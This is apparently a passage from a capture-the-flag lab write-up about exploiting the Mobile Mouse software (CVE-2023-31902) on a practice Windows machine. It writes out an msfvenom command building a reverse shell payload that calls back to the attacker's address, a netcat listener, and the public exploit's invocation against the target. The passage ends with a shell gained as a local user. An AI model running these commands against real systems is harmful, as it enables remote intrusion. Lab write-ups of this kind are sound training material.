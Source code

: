 Indeed there is a exploit right at the top of the Google results <https://github.com/blue0x1/mobilemouse-exploit>, I read the first few lines and found out that there are two versions for the exploit one uses SMB the other HTTP. If you remember, this information matches the instructions. So let's dive deeper. I downloaded the exploit.

![](/assets/blog/Mouse-Trap/github.png)

The next step is to generate a nice reverse shell like in the Engagement details said, a **Windows stageless reverse TCP (x64) shell** named `shell.exe`. I used `msfvenom` for that, it's an fast and easy way to do it.:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.78.229 LPORT=4444 -f exe -o shell.exe
```

By executing the exploit with the target IP, the file name and the local IP address we should be able to get a reverse shell. Before executing the exploit you must start a listener (`nc -lvnp 4444`).

```sh
sudo python3 CVE-2023-31902-v2.py --target 10.10.68.242 --file shell.exe --lhost 10.14.78.229
```

After a few seconds I get the connection from the server. The `whoami` command reveals that we are *purpletom*, the local user.

![](/assets/blog/Mouse-Trap/shell.png)
